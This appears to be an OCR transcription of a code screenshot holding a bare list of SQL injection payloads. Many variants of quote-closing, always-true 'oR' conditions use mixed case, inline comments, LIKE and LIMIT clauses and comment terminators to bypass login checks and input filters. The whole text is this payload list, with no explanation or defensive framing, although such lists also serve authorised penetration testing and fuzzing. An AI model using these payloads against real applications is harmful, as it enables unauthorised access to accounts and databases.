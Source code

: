 ```
")oR"2"="2"oR("
")oR"2"="2"-- 2
")oR"2"="2"#
")oR"2"="2"/*
")oR 2=2-- 2
")oR 2=2#
")oR 2=2/*
")oR 2=2 oR("
")oR/**/2=2-- 2
")oR/**/2=2#
")oR/**/2=2/*
")oR/**/2=2/**/oR("
")oR(2)=2-- 2
")oR(2)=2#
")oR(2)=2/*
")oR(2)=(2)oR("
")oR"2"="2" LimIT 1-- 2
")oR"2"="2" LimIT 1#
")oR"2"="2" LimIT 1/*
")oR(2)=(2)LimIT(1)-- 2
")oR(2)=(2)LimIT(1)#
")oR(2)=(2)LimIT(1)/*
')oR true-- 2
')oR true#
')oR true/*
')oR true oR('
')oR(true)-- 2
')oR(true)#
')oR(true)/*
')oR(true)oR('
')oR/**/true-- 2
')oR/**/true#
')oR/**/true/*
')oR/**/true/**/oR('
")oR true-- 2
")oR true#
")oR true/*
")oR true oR("
")oR(true)-- 2
")oR(true)#
")oR(true)/*
")oR(true)oR("
")oR/**/true-- 2
")oR/**/true#
")oR/**/true/*
")oR/**/true/**/oR("
')oR'2'LiKE('2
')oR'2'LiKE'2'-- 2
')oR'2'LiKE'2'#
')oR'2'LiKE'2'/*
')oR'2'LiKE'2'oR('
')oR(2)LiKE(2)-- 2
')oR(2)LiKE(2)#
')oR(2)LiKE(2)/*
')oR(2)LiKE(2)oR('
")oR"2"LiKE("2
")oR"2"LiKE"2"-- 2
")oR"2"LiKE"2"#
")oR"2"LiKE"2"/*
")oR"2"LiKE"2"oR("
")oR(2)LiKE(2)-- 2
")oR(2)LiKE(2)#
")oR(2)LiKE(2)/*
```